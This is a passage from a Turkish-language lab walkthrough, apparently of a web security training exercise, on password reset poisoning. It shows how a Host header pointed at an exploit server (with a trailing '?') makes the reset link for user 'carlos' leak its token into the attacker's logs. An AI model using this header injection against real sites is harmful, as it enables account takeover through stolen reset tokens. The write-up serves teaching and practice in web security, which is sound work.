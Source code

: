 Daha sonra `carlos` kullanıcısı için parola sıfırlama isteği oluşturuyoruz. 

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%207.png)

Repeater aracılığıyla mail adresimizi aşağıdaki gibi carlos olacak şekilde ayarlıyoruz. Host alanına da exploit server için verilen domain’i yazıyoruz. Bu kısımda en önemli bilgi Host alanında verdiğimiz değerin sonuna `?`  koymamızdır. Bunun sebebi ise kalan kısmın query string olarak değerlendirilmesini ve request’in iletilmesiyle ilgili bir sorun yaşanmamasını sağlamaktır. 

```jsx
Host: exploit-0a7200fe046e74d981a72e1201f800aa.exploit-server.net/exploit?
```

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%208.png)

Exploit server log’larını incelediğimizde token’ın elde edildiğini görebiliyoruz bu şekilde;

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%209.png)
